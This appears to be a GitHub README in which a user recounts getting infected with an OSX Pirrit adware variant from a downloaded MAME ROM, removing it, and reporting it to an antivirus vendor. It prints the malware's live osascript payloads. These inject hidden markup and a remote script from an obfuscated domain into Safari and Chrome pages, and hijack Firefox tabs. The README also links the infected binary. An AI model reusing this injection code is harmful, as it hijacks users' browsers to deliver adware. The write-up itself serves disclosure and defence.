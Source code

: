 Warning
=======

This repository contains binaries that are infected with the OSX Pirrit malware.

Backstory
=========

Recently I've been volunteering some of my free time to help children learn to program software and tinker with electronics and I thought it might be neat for the kids to build an old school arcade machine. As part of my initial research into this I had compiled MAME on my new MacBook and was searching for some ROMs to try out. The first ROM that I downloaded just happened to be infected with some nasty Malware...

If you're curious, the ROM was for [Galaxian](https://en.wikipedia.org/wiki/Galaxian) and [here is/was the actual download link](http://www.freeroms.com/dl_roms/rom_download.php?title=galaxian_midway&system=MAME&game_id=5674). 

Now at this point I should mention that from time-to-time I can be quite a careless individual. The ROM in question was packaged such that upon execution I was immediately asked to enter my root password. Stupid me complied without thinking twice. It was late. I was tired. And quite frankly my fingers were typing in auto-pilot mode at this point. My bad.

Almost immediately I knew that I had f**ked up.

Suddenly, some shadey "software services" appeared on my laptop and Safari started behaving oddly. Convinced that I'd been compromised by "something" I immediately downloaded ESET Cyber Security for Mac and ran a scan. 

Nothing.... My MacBook appeared clean. I was not convinced.

I checked my running processes and one in particular stood out. It looked like a whole bunch of javascript code passed as an argument to "/usr/bin/osascript".

```
  501   514   509   0 12:56pm ??         0:11.84 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU"^M\012^M\012repeat^M\012«event XFdrIjct» {} ^M\012end repeat^M\012^M\012^M\012on «event XFdrIjct» {}^M\012delay 0.5^M\012try^M\012if is_Safari_running() then^M\012tell application "Safari" ^M\012tell application "Safari" to set page_source to do JavaScript "document.body.innerHTML;" in current tab of first window ^M\012if page_source does not contain _pid then^M\012set theURL to URL of current tab of first window^M\012if theURL is not equal to "about:blank" then^M\012tell application "Safari" to do JavaScript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" in current tab of first window ^M\012tell application "Safari" to do JavaScript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);" in current tab of first window^M\012end if ^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Safari_running() ^M\012tell application "System Events" to (name of processes) contains "Safari"^M\012end is_Safari_running
  501   516   509   0 12:56pm ??         0:01.87 /usr/bin/osascript -e global delayTime^M\012set delayTime to 99999999^M\012global newTabUrl^M\012set newTabUrl to "'http://google.com'"^M\012global currentUrl^M\012set currentUrl to ""^M\012global previousUrl^M\012set previousUrl to ""^M\012global newTabWithPrev^M\012set newTabWithPrev to ""^M\012^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {}^M\012delay (delayTime * 60)^M\012try^M\012if is_Firefox_running() then^M\012tell application "Firefox" to activate^M\012tell application "System Events"^M\012keystroke "l" using command down^M\012keystroke "c" using command down^M\012delay(1)^M\012end tell^M\012set currentUrl to the clipboard^M\012^M\012if currentUrl is not equal to previousUrl then^M\012set newTabUrlWithPrev to newTabUrl^M\012set newTabUrlWithPrev to replace_chars(newTabUrlWithPrev, "[CONTEXT_URL]", currentUrl)^M\012tell application "Firefox"^M\012open location newTabUrlWithPrev^M\012end tell^M\012set previousUrl to newTabUrlWithPrev^M\012end if^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Firefox_running()^M\012tell application "System Events" to (name of processes) contains "firefox"^M\012end is_Firefox_running^M\012^M\012on replace_chars(this_text, search_string, replacement_string)^M\012set AppleScript's text item delimiters to the search_string^M\012set the item_list to every text item of this_text^M\012set AppleScript's text item delimiters to the replacement_string^M\012set this_text to the item_list as string^M\012set AppleScript's text item delimiters to ""^M\012return this_text^M\012end replace_chars
  501 66630   509   0  7:16pm ??         0:00.04 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU" ^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {} ^M\012delay 0.5^M\012try^M\012if is_Chrome_running() then^M\012tell application "Google Chrome" to tell active tab of window 1^M\012set sourceHtml to execute javascript "document.getElementsByTagName('html')[0].innerHTML"^M\012if sourceHtml does not contain _pid then^M\012tell application "Google Chrome" to execute front window's active tab javascript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" ^M\012tell application "Google Chrome" to execute front window's active tab javascript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);"^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Chrome_running() ^M\012tell application "System Events" to (name of processes) contains "Google Chrome"^M\012end is_Chrome_running
  501 66632 41100   0  7:16pm ttys000    0:00.00 grep osa
```

What in the hell is osascript? A quick google search revealed it to be part of the [Apple Open Scripting Architecture](https://developer.apple.com/library/content/documentation/AppleScript/Conceptual/AppleScriptX/Concepts/osa.html). 

A closer look and I could see that something else was being "bootstrapped" from the the domain aa9bd78f328a6a41279d0fad0a88df1901.com. Looks legit right?....

So I run a wget on the full URL and inspect the result which [you can see here](https://github.com/S73417H/Pirrit/blob/master/malicious.js). And there it was. Shitty adware.

I run some "kill -9" commands on the osascript processes but they just keep coming back. O.K. what's kicking THEM off? I check the PPID on the process and reveal it to be "/Library/research/research". I back him up ([downloadable here](https://github.com/S73417H/Pirrit/raw/master/research.do.not.execute)) so I can take a closer look later -- then I delete it from its current location. I kill the process and all of the "osascript" child processes, which don't respawn. A quick cleanup of some shady .plist files and I'm satisfied that I've managed to get rid of it.

Why didn't AV pick it up?
=========================

So this I didn't expect. Surely this malware has been classified by now? So I post a question to [/r/malware](https://redd.it/5ea9bd) and shortly later I get a response from Cyber Security Researcher [Amit Serper](https://twitter.com/0xAmit) of [Cybereason](http://cybereason.com). Amit explains that the malware I'd encountered is a variant of OSX Pirrit which he initially discovered and analysed earlier in the year. [Here is that analysis](http://go.cybereason.com/rs/996-YZT-709/images/Cybereason-Lab-Analysis-OSX-Pirrit-4-6-16.pdf) if you're interested.

So this is a new varient of the same Malware OSX Pirrit and my AV simply didn't have a signature for it yet. Being the nice guy that I am, I follow ESET's instructions on [how to report a suspicious file](http://support.eset.com/kb141/#SubmitFile). Within hours I get a reply thanking me for my submission and that a signature update would be pushed out shortly. Which it was. In fact, the turn-around time was literally *just hours* which speaks volumes on ESET and their AV products.
